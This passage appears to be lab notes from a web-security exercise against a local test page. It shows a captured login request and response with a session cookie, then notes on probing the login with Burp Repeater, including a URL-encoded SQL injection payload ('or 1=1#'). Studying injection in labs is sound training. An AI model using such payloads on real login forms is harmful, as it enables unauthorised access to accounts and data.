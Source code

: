 ```bash
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/i0x02.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=jeremy&password=jeremy
```

```bash
# Response
HTTP/1.1 200 OK
Date: Mon, 24 Feb 2025 20:56:29 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Mon, 24-Feb-2025 21:56:29 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
...
</html>
```

- `Set-Cookie: session=...` - important session token
  - The followed GET requests had the `Cookie: session=...` header set - login ok
- `Content-Length: 1027` - may be necessary
- Test for injections by sending to **Repeater** the POST request and modify it

```bash
# Payload
username=jeremy&password=password

# Response
Content-Length: 2122
# there is a SQL error
```

```bash
username=jeremy'+or+1%3d1%23&password=password
# URL-encoded key characters (CTRL+U)

# Response
Content-Length: 2122
# there is a SQL error
```
